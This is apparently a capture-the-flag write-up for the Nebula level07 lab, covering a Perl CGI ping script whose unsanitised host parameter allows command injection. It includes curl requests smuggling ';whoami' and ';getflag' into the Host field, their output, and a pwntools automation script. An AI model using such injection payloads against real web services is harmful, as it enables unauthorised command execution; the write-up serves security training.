 # Level07

#### Description

The **flag07** user was writing their very first perl program that allowed them to ping hosts to see if they were reachable from the web server.

To do this level, log in as the **level07** account with the password **level07**. Files for this level can be found in /home/flag07.

#### Source Code

```perl
#!/usr/bin/perl

use CGI qw{param};

print "Content-type: text/html\n\n";

sub ping {
  $host = $_[0];

  print("<html><head><title>Ping results</title></head><body><pre>");

  @output = `ping -c 3 $host 2>&1`;
  foreach $line (@output) { print "$line"; }

  print("</pre></body></html>");
  
}

# check if Host set. if not, display normal page, etc

ping(param("Host"));
```

#### Solution

This perl script takes user input and then do a ping and returns the output. So, basically there is a command injection vulnerability in these line of script.

```perl
@output = `ping -c 3 $host 2>&1`;
```

Here, the value of host variable is provided by user and it's not sanitized, so we can add additional commands also using `;` .

There is one more file present on flag07 home directory - `thttpd.conf` , which shows there's a server running on port 7007 and from there we can access that file.

```bash
level07@nebula:/home/flag07$ ls -la
total 10
drwxr-x--- 2 flag07 level07  102 2011-11-20 20:39 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag07 flag07   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag07 flag07  3353 2011-05-18 02:54 .bashrc
-rwxr-xr-x 1 root   root     368 2011-11-20 21:22 index.cgi
-rw-r--r-- 1 flag07 flag07   675 2011-05-18 02:54 .profile
-rw-r--r-- 1 root   root    3719 2011-11-20 21:22 thttpd.conf
level07@nebula:/home/flag07$ netstat -antp
(No info could be read for "-p": geteuid()=1008 but you should be root.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:50001         0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:10007           0.0.0.0:*               LISTEN      -               
tcp        0      0 192.168.117.140:22      192.168.117.128:33978   ESTABLISHED -               
tcp6       0      0 :::1616                 :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
tcp6       0      0 :::7007                 :::*                    LISTEN      -   
```

We can simply trigger that command injection using curl (with url encoding) command from our attacker kali machine.

```bash
┌──(ghost㉿kali)-[~/nebula/level07]
└─$ curl 'http://192.168.117.140:7007/index.cgi?Host=127.0.0.1%3Bwhoami'
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.013 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.014 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.013 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 1999ms
rtt min/avg/max/mdev = 0.013/0.013/0.014/0.003 ms
flag07
</pre></body></html> 
```

Command injection was successful, now we can also execute `getflag` command.

```bash
──(ghost㉿kali)-[~/nebula/level07]
└─$ curl 'http://192.168.117.140:7007/index.cgi?Host=127.0.0.1%3Bgetflag'
<html><head><title>Ping results</title></head><body><pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_req=1 ttl=64 time=0.020 ms
64 bytes from 127.0.0.1: icmp_req=2 ttl=64 time=0.018 ms
64 bytes from 127.0.0.1: icmp_req=3 ttl=64 time=0.018 ms

--- 127.0.0.1 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2000ms
rtt min/avg/max/mdev = 0.018/0.018/0.020/0.005 ms
You have successfully executed getflag on a target account
</pre></body></html>       
```

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level07', password='level07')

session.run("wget http://192.168.117.140:7007/index.cgi?Host=127.0.0.1%3Bgetflag%3Bid -O /tmp/flag")

terminal = session.shell()
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>
